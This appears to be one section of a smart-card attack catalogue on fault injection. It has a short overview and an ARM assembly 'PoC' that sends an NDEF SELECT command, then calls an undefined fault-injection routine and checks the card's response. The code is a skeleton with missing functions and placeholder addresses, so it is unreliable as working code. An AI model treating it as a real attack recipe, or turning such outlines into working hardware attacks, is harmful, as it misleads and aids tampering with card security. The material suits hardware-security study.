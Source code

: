 ## 7. Fault Injection

### Overview
This attack demonstrates how inducing faults, such as voltage spikes or clock glitches, can disrupt the normal operation of the smart card and exploit resulting vulnerabilities.

### PoC Code

```assembly
.section .data
    select_ndef_applet: .byte 0x00, 0xA4, 0x04, 0x00, 0x07, 0xD2, 0x76, 0x00, 0x00, 0x85, 0x01, 0x01, 0x00
    response_buffer: .space 256
    apdu_length: .word 13

.section .text
.global _start

_start:
    bl initialize
    ldr r0, =select_ndef_applet    ; Load address of APDU command
    ldr r1, =response_buffer       ; Load address of response buffer
    ldr r2, =apdu_length           ; Load length of APDU command
    bl send_apdu                   ; Call send_apdu function

    ; Induce a fault (e.g., voltage spike)
    bl induce_fault                ; Call fault injection function

    ; Check the response
    ldr r3, =response_buffer
    ldrb r4, [r3]                  ; Load the first byte of the response
    cmp r4, #0x90                  ; Check if the response is 0x90 (successful execution)
    bne error                      ; If not, branch to error

    ; Exit program
    mov r7, #1
    svc 0

error:
    ; Handle error
    ; Exit with error code
    mov r7, #1
    mov r0, #1
    svc 0

initialize:
    ; Initialize environment and hardware
    ldr r0, =0x10000000            ; Example base address for NFC reader configuration
    mov r1, #0x1                   ; Example configuration value
    str r1, [r0]                   ; Write configuration value to NFC reader base address

    ; Clear the response buffer
    ldr r2, =response_buffer
    mov r3, #256
    mov r4, #0x00

clear_buffer:
    strb r4, [r2], #1
    subs r3, r3, #1
    bne clear_buffer

    mov pc, lr                     ; Return from function

```